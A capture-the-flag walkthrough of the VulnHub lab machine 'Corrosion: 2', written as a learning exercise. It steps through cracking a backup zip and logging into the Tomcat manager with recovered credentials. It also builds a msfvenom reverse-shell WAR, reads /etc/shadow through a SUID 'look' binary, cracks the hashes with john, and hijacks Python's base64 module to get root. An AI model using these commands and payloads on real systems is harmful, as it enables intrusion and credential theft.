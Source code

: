 # Corrosion: 2

### Nmap Scan

```bash
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6a:d8:44:60:80:39:7e:f0:2d:08:2f:e5:83:63:f0:70 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCxEaMV/cOFTyD2I2ITIKwQ4b/bNPssxteT2yDAFcUeWUEMen6sr0RS9Wa7pk0ywsbDR/nTrbvSXCVumjaF2UG1nf5d0iu7RgSOWmtWNllMCmH8fUqBXoSVTsR6

80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET

8080/tcp open  http    syn-ack ttl 64 Apache Tomcat 9.0.53
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.53
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

---

### First look of website.

![Website First look ](/VulnHub-Machines/Writeup/Corrosion2/img/website.png)

### Hidden Directory

```bash
## Most IMP 
/backup.zip -> password protected 

/docs
/examples
/manager 
```

- Download the zip file from `/backup.zip`
- The zip file is password protected.

---

### Crack backup.zip Password

```bash
fcrackzip -u backup.zip -D -p /usr/share/wordlists/rockyou.txt -v
```

- Successfully crack the password.
    
    > **Cracked Password** = @administrator_hi5
    > 

---

### Inside website

- After unzip the backup file we get credentials from → `tomcat-users.xml`
- `/manager` is a directory appears to be interesting.

> **username = admin**
> 

> **password = melehifokivai**
> 
- It looks like we can upload the .war file to get a reverse-shell.

![Screenshot_2025-07-27_20-12-02.png](Corrosion%202%2023c03ee046f5800eb7eff112e1199c5c/Screenshot_2025-07-27_20-12-02.png)

---

# Multiple Methods to get a **reverse-shell**

1. Use msfvenom to get a revershell 
- Upload this `rev.war` file
- Go to → http://IP:8080/rev/

![termial.png](Corrosion%202%2023c03ee046f5800eb7eff112e1199c5c/termial.png)

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<your_IP> LPORT=1337 -f war -o rev.war
```

---

1. Use Metasploit → `multi/http/tomcat_mgr_upload`

```bash
set RHOST
set RPORT
## Optional  
set HttpPassword melehifokivai 
## Optional  
set HttpUsername admin  
```

---

### SSH Login

- we have 3 users
- we can check if any password is reuse.
- and it work `jaye` has a reuse password.

```
jaye:melehifokivai
randy
tomcat 
```

![ssh.png](Corrosion%202%2023c03ee046f5800eb7eff112e1199c5c/ssh.png)

---

### Privilege Escalation

- we can use `linpeas` also
- But first we try manual testing
- This is use for search for all files on the system that have the SUID (Set User ID) permission set.

```bash
## search for all files on the system that have the SUID (Set User ID) permission set.
find / -perm -4000 2>/dev/null 
```

- After running this command we see something unusual.

![pri.png](Corrosion%202%2023c03ee046f5800eb7eff112e1199c5c/pri.png)

- `/home/jaye/Files/look` → Try GTFOBins

![Screenshot_2025-07-27_20-32-52.png](Corrosion%202%2023c03ee046f5800eb7eff112e1199c5c/Screenshot_2025-07-27_20-32-52.png)

- Payload

```bash
## File Read
LFILE=/etc/shadow
./look '' $LFILE
```

![randy.png](Corrosion%202%2023c03ee046f5800eb7eff112e1199c5c/randy.png)

- username & password  → /etc/shadow

```bash
randy:$6$bQ8rY/73PoUA4lFX$i/aKxdkuh5hF8D78k50BZ4eInDWklwQgmmpakv/gsuzTodngjB340R1wXQ8qWhY2cyMwi.61HJ36qXGvFHJGY/:18888:0:99999:7:::
tomcat:$6$XD2Bs.tL01.5OT2b$.uXUR3ysfujHGaz1YKj1l9XUOMhHcKDPXYLTexsWbDWqIO9ML40CQZPI04ebbYzVNBFmgv3Mpd3.8znPfrBNC1:18888:0:99999:7:::
```

- Save this file and use john to crack there passwords.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
```

> **Cracked Password = 07051986randy**
> 
> 
> **Username = randy**
> 

---

### Login As randy

```bash
ssh randy@IP
```

![esc.png](Corrosion%202%2023c03ee046f5800eb7eff112e1199c5c/b38dd374-8344-4f67-8ca9-37996a1f96c9.png)

- user → randy can run python script with privileges.

![sudo.png](Corrosion%202%2023c03ee046f5800eb7eff112e1199c5c/e43e3989-dbe9-41c3-b4ec-c417afa401dc.png)

- we can edit the python script and inject a cmd to spawn a root shell.
    - edit `/usr/lib/python3.8/base64.py`

![payload.png](Corrosion%202%2023c03ee046f5800eb7eff112e1199c5c/8bba9cbc-f1f4-4868-a150-b9bd750ce17c.png)

```python
import os

os.system("/bin/bash")
```

- save this
- when we run `randombase64.py` python script, which triggers our `base64.py` and give us a root shell.

![actual-root.png](Corrosion%202%2023c03ee046f5800eb7eff112e1199c5c/bdbf36ce-358d-4595-8414-e6aaf2b36e10.png)

```bash
sudo /usr/bin/python3.8 /home/randy/randombase64.py 
```